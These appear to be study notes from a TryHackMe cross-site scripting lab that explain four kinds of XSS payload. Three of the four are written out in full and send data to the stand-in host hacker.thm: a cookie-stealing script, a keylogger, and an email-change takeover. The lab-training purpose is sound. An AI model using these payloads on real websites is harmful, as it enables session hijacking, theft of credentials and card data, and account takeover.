 # [XSS Payloads](https://tryhackme.com/room/xssgi)

## What is a Payload?

- In XSS, the payload is the ***JavaScript code*** we wish to be executed on the targets computer. There are two parts to the payload, **<ins>the Intention and the Modification</ins>**.


- `The intention` is what you wish the JavaScript to actually do (some examples below), and `the modification` is the changes to the code we need to make it execute as every scenario is different.


## Here are some examples of XSS intentions 
- See all below mentioned scripts [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20XSS%20Payloads/Payload%20List)

### 1. Proof of Concept (PoC)

- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an ***alert box*** to pop up on the page with a string of text, for example:

  [<script>alert('XSS');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/1.%20POC.js)

### 2. Session Stealing

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, **base64** encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


  [<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/2.%20SessionStealing.js)
  
### 3. Key Logger
  
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted **user logins or credit card details**.
  
  [<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/3.%20KeyLogger.js)
  
### 4. Business Logic

- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  [<script>user.changeEmail('attacker@hacker.thm');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/4.%20BusinessLogic.js)

- Now that the email address for the account has changed, the attacker may perform a reset password attack.
